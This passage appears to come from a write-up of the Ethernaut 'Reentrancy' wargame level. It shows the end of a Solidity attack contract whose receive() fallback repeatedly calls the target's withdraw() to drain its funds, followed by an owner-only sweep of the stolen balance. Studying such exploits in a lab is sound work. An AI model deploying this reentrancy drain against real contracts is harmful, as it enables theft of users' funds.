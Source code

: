 ```solidity
        require(msg.sender == owner);
        uint totalBalance = address(this).balance;
        payable(msg.sender).transfer(totalBalance);
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```

<br/>
<p align="center">
<img src="./images/transact.png" width="300" alt="Ethernaut Reentrancy completed">
</p>
<br/>
